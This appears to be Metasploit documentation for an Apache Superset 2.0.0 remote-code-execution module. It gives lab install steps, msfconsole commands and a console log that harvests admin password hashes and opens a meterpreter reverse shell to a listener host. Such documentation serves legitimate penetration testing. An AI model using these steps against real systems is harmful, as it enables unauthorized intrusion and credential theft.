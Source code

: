 ## Vulnerable Application

Instructions to get the vulnerable application. If applicable, include links to the vulnerable install
files, as well as instructions on installing/configuring the environment if it is different than a
standard install. Much of this will come from the PR, and can be copy/pasted.

## App Install

```
sudo docker run -p 8088:8088 --name superset apache/superset:2.0.0
sudo docker exec -it superset superset fab create-admin \
              --username admin \
              --firstname Superset \
              --lastname Admin \
              --email admin@superset.com \
              --password admin
sudo docker exec -it superset superset db upgrade
sudo docker exec -it superset superset init
```

Login to the app, click 'list users' under 'Settings', then click '+'. Make a new user with 'Public' as the role.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/linux/http/apache_superset_cookie_sig_rce`
1. Do: `set rhost [ip]`
1. Do: `set username [username]`
1. Do: `set password [password]`
1. Do: `run`
1. You should get a shell.

## Options

## Scenarios

### Apache Superset 2.0.0 on Docker

```
msf6 > use exploit/linux/http/apache_superset_cookie_sig_rce 
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(linux/http/apache_superset_cookie_sig_rce) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(linux/http/apache_superset_cookie_sig_rce) > set username admin
username => admin
msf6 exploit(linux/http/apache_superset_cookie_sig_rce) > set password admin
password => admin
msf6 exploit(linux/http/apache_superset_cookie_sig_rce) > set lhost 192.168.154.74
lhost => 192.168.154.74
msf6 exploit(linux/http/apache_superset_cookie_sig_rce) > set verbose true
verbose => true
msf6 exploit(linux/http/apache_superset_cookie_sig_rce) > exploit

[*] Started reverse TCP handler on 192.168.154.74:4444 
[*] Attempting login
[*] 127.0.0.1:8088 - CSRF Token: IjRjNDFiNzM3MjUwOWMzZWJkY2YwNWM4N2JkOTRhZjJlY2YwOWI3NDUi.ZPoroQ.Jhv-EqwwbX7Un77JmCd-fPRO0jw
[*] 127.0.0.1:8088 - Attempting login
[*] Attempting to pull user creds from db
[*] Grabbing CSRF token
[+] CSRF Token: IjRjNDFiNzM3MjUwOWMzZWJkY2YwNWM4N2JkOTRhZjJlY2YwOWI3NDUi.ZPoroQ.Jhv-EqwwbX7Un77JmCd-fPRO0jw
[+] Successfully created db mapping with id: 1
[*] Creating new sqllab tab
[+] Using tab: 1
[*] Setting latest query id
[*] Harvesting superset user creds
[+] Superset Creds
==============

  Username  Password
  --------  --------
  admin     pbkdf2:sha256:260000$GDv10qGetjVq8CIX$735ed1e400e2e2ebbdfd294f60f2e2800177874bc2455761cd799e14f7df6cd2

[*] Attempting RCE
[*] Creating new dashboard
[+] New Dashboard id: 1
[*] Grabbing permalink to new dashboard to trigger payload later
[+] Dashboard permalink key: eybwJ7EVjR3
[*] Setting latest query id
[*] Uploading payload
[*] Triggering payload
[*] Sending stage (24768 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (192.168.154.74:4444 -> 172.17.0.2:53892) at 2023-09-07 15:59:31 -0400
[*] Deleting dashboard
[*] Deleting sqllab tab
[*] Deleting database mapping

meterpreter > getuid
Server username: superset
meterpreter > sysinfo
Computer        : 1e681df9b6fe
OS              : Linux 6.3.0-kali1-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.3.7-1kali1 (2023-06-29)
Architecture    : x64
System Language : C
Meterpreter     : python/linux
```
